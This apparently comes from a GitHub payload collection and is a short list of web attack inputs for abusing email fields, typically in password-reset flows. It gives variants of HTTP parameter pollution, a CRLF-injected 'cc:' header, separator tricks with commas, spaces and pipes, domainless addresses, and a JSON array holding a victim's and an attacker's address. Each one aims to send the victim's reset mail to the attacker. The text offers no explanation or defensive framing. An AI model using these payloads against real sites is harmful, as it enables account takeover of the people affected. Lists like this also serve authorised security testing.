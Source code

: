 #### Double parameter (aka. HPP / HTTP parameter pollution):
- email=victim@xyz.tld&email=hacker@xyz.tld
#### Carbon copy:
- email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
#### Using separators:
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
#### No domain:
- email=victim
- email=victim@xyz
#### JSON table:
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}

